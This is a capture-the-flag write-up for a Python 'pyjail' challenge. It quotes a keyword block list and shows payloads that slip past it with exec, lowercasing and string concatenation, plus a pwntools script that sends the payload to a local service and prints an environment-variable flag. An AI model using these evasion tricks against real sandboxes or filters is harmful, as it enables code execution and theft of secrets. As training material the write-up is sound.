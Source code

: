 # Pyjail

## Overview
To obtain the flag we need to bypass some checks:
```py
if any(x in user_input for x in ["import", "environ", "getenv", "os", "print", "system", "__", "open", "flag"]):
    print("Blocked!")
    continue
```
This is easy to do since we can use `exec` again, write everything in uppercase, and use the `.lower()` function.
```bash
>>> exec("IMPORT OS; PRINT(OS.ENVIRON['FLAG2'])".lower())
```
or
```bash
>>> exec("impor"+"t " + "o" + "s;" + "prin"+"t" + "(o" + "s.enviro" + "n[\'fla" + "g\'])")
```

## Exploit
```py
from pwn import remote, context

context.log_level = 'error'

payload = b"exec(\"IMPORT OS; PRINT(OS.ENVIRON['FLAG'])\".lower())"
payload = b'exec("impor"+"t " + "o" + "s;" + "prin"+"t" + "(o" + "s.enviro" + "n[\'fla" + "g\'])")'

r = remote("127.0.0.1", 5004)
r.recvuntil(b">>> ")
r.sendline(payload)
flag = r.recvline().decode().strip()
r.close()

print(flag)
```